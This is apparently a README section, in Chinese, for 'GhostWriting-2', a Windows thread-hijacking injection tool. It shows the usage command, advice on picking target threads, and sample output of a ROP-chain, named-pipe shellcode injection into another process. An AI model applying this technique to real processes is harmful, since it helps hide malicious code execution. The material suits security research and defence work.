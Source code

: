 ## 使用方法

```bash
# 查找目标线程 ID（使用 Process Hacker 等工具）
# 然后运行：
./ghostwriting2.exe <thread_id>

# 例如：
./ghostwriting2.exe 1234
```

**注意**:
- 需要选择一个活跃的线程（定期进入用户态的线程）
- GUI 程序的主线程通常是好选择
- 避免选择内核态长时间阻塞的线程

## 输出示例

```
=== GhostWriting-2 Injection ===
Target Thread ID: 1234

[*] Finding gadgets...
[+] Found gadgets:
    push edx; call eax: 0x77B12345
    jmp $:              0x76A54321
    ret:                0x76A54322

[+] Acquired thread handle

[*] Priming thread, setting EIP to jmp $...
[*] Waiting for kernel exit...
[+] Process exited kernel, ready for injection

[*] Injecting pipe name to stack...
[+] Pipe name injected to stack at 0x0012FF00

[*] Creating named pipe...
[+] Named pipe created

[*] Calling CreateFileA to connect victim to pipe...
[+] Pipes connected, handle: 0x00000088

[*] Calling VirtualAlloc to allocate RW memory...
[+] VirtualAlloc'd memory at 0x00123000

[*] Preparing ROP sled...
    ROP chain: ReadFile -> CloseHandle -> VirtualProtect -> CreateThread

[*] Writing shellcode to pipe (267 bytes)...
[+] Data written to pipe

[*] Executing ROP sled...
[*] Waiting for shellcode thread creation...
[+] Execution completed!

[*] Restoring original thread context...
[+] Thread restored

[+] Full injection sequence done. Time elapsed: 523ms
```
